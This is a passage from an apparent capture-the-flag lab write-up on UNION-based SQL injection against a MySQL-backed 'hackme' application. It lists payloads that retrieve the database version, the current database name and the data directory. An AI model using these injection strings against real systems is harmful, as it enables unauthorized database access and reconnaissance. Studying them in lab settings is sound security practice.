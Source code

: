 As we see in the screenshot above, all the numbers injected in each column are displayed, which facilitates our exploitation process.

Retrieving mysql version.

`' and 1=2 union select @@version,2,3 #`

![](/assets/images/hackme/screenshot-7.png)

Retrieving the current database.

`' and 1=2 union select database(),2,3 #`

![](/assets/images/hackme/screenshot-8.png)

Retrieving the mysql home directory.

`' and 1=2 union select @@datadir,2,3 #`
